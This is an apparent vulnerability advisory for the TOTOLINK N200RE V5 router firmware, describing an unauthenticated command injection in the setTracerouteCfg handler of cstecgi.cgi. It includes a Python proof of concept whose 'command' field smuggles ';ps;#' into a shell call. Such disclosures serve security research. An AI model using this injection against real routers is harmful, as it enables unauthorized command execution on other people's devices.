


# TOTOLINK N200RE V5(V9.3.5u.6139_B20201216) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setTracerouteCfg` handler function of  `cstecgi.cgi`. The value of the `command` parameter will be spliced ​​into the `traceroute -m %d %s&>....` and be excuted by `doSystem` function, which allows an attacker to excute any command. **The vulnerability do not need authentication.**



## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "topicurl": "setTracerouteCfg",
    "num": "123",
    "command": ";ps;#"
}"""

requests.request("POST", url, data=payload)
```

